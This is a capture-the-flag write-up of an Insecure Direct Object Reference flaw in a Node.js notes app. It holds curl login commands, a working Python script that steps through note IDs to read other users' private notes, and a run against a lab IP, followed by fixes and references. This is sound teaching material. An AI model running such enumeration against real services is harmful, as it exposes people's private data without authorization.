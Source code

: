 # The Gate of Broken Names

**Challenge Name:** The Gate of Broken Names  
**Category:** Web Security  
**Difficulty:** Easy-Medium  
**Points:** TBD

## Challenge Description

> Among the ruins of Briarfold, Mira uncovers a gate of tangled brambles and forgotten sigils. Every name carved into its stone has been reversed, letters twisted, meanings erased. When she steps through, the ground blurs—the village ahead is hers, yet wrong: signs rewritten, faces familiar but altered, her own past twisted. Tracing the pattern through spectral threads of lies and illusion, she forces the true gate open—not by key, but by unraveling the false paths the Hollow King left behind.

## Technical Summary

A note-taking application with user authentication where users can create private and public notes. The challenge involves exploiting an **Insecure Direct Object Reference (IDOR)** vulnerability to access other users' private notes without proper authorization.

## Initial Analysis

![Challenge Interface](Screenshot%202025-10-24%20at%2010.30.50PM.png)

The application is a Node.js/Express web app with the following features:
- User authentication with session management
- Note creation (public/private visibility options)
- Note viewing and listing
- API endpoints for note management


## Vulnerability Analysis

### Insecure Direct Object Reference (IDOR)

The application has an API endpoint that retrieves individual notes by ID. The vulnerability occurs because:

1. ✅ The endpoint checks if a user is authenticated
2. ❌ The endpoint does NOT verify if the authenticated user owns the note
3. ❌ The endpoint does NOT check if the note is private before returning it

This allows any authenticated user to access ANY note (including private ones) by simply knowing or guessing the note ID.

**Proper authorization should check:**
- Does the note belong to the current user? OR
- Is the note marked as public?

Without these checks, the application exposes all users' private data to anyone who can enumerate note IDs.

## Exploitation

### Step 1: Create an Account and Login

Register and login to obtain a valid session:
```bash
curl -X POST http://target:port/api/auth/register \
  -H "Content-Type: application/json" \
  -d '{"username":"attacker","password":"password123"}'

curl -X POST http://target:port/api/auth/login \
  -H "Content-Type: application/json" \
  -d '{"username":"attacker","password":"password123"}' \
  -c cookies.txt
```

### Step 2: Enumerate Note IDs

The application likely uses sequential note IDs. We can enumerate them to find all notes:

```python
#!/usr/bin/env python3
import requests
import sys

def exploit(target_url, session_cookie):
    """
    Exploit IDOR vulnerability to enumerate and read all notes
    """
    cookies = {"connect.sid": session_cookie}
    
    print("[*] Starting IDOR exploitation...")
    print(f"[*] Target: {target_url}")
    
    found_notes = []
    
    for note_id in range(1, 200):
        try:
            response = requests.get(
                f"{target_url}/api/notes/{note_id}",
                cookies=cookies,
                timeout=5
            )
            
            if response.status_code == 200:
                data = response.json()
                found_notes.append(data)
                
                is_private = "🔒 PRIVATE" if data.get('is_private') == 1 else "🔓 Public"
                
                print(f"\n[+] Note #{note_id} - {is_private}")
                print(f"    Title: {data.get('title')}")
                print(f"    Owner: {data.get('username')}")
                print(f"    Content: {data.get('content')[:100]}...")
                
                # Check for flag
                content = data.get('content', '')
                if 'HTB{' in content:
                    flag_start = content.find('HTB{')
                    flag_end = content.find('}', flag_start) + 1
                    flag = content[flag_start:flag_end]
                    print(f"\n[!] 🎯 FLAG FOUND: {flag}")
                    return flag
                    
        except requests.exceptions.RequestException as e:
            continue
    
    print(f"\n[*] Enumeration complete. Found {len(found_notes)} notes.")
    return None

if __name__ == "__main__":
    if len(sys.argv) != 3:
        print("Usage: python solve.py <target_url> <session_cookie>")
        print("Example: python solve.py http://134.122.71.206:30878 s%3Axxxxx...")
        sys.exit(1)
    
    target_url = sys.argv[1].rstrip('/')
    session_cookie = sys.argv[2]
    
    flag = exploit(target_url, session_cookie)
    
    if flag:
        print(f"\n[✓] Success! Flag: {flag}")
    else:
        print("\n[✗] Flag not found in enumerated notes")
```

### Step 3: Extract the Flag

The flag is stored in a private note belonging to another user (likely an admin or special user). By enumerating all note IDs, we can access it despite being marked as private.

## Running the Exploit

```bash
# 1. Login and get session cookie
curl -X POST http://134.122.71.206:30878/api/auth/login \
  -H "Content-Type: application/json" \
  -d '{"username":"attacker","password":"password123"}' \
  -v 2>&1 | grep "Set-Cookie"

# 2. Run exploit with session cookie
python3 solve.py http://134.122.71.206:30878 "s%3Ag1c7mu9KEIN_hOt-7rUJuKDAqRazbCHa..."
```

## Impact

This IDOR vulnerability allows:
- **Privacy Breach**: Access to all private notes from all users
- **Data Exfiltration**: Reading sensitive information meant to be private
- **Authorization Bypass**: Circumventing access controls

## Remediation

### Fix the Authorization Check

The API endpoint should include proper authorization logic:

```javascript
// Pseudocode for proper authorization
if (note.is_private === 1 && note.user_id !== current_user_id) {
    return res.status(403).json({ error: 'Access denied' });
}
```

### Additional Security Measures

1. **Implement Role-Based Access Control (RBAC)** - Clear ownership verification
2. **Use UUIDs instead of sequential IDs** - Makes enumeration harder
3. **Add rate limiting** - Prevent rapid enumeration attempts
4. **Log unauthorized access attempts** - Detect and respond to attacks
5. **Implement API authentication tokens** - Better session management

## Key Takeaways

1. **Always verify ownership**: Check if the authenticated user has permission to access the requested resource
2. **Principle of Least Privilege**: Users should only access their own data unless explicitly shared
3. **Defense in Depth**: Implement multiple layers of authorization checks
4. **Avoid Predictable IDs**: Use UUIDs or other non-sequential identifiers

## Tools Used

- **Python 3** with requests library
- **cURL** for API testing
- **Burp Suite** (optional) for intercepting requests

## References

- [OWASP: Insecure Direct Object References](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/05-Authorization_Testing/04-Testing_for_Insecure_Direct_Object_References)
- [CWE-639: Authorization Bypass Through User-Controlled Key](https://cwe.mitre.org/data/definitions/639.html)
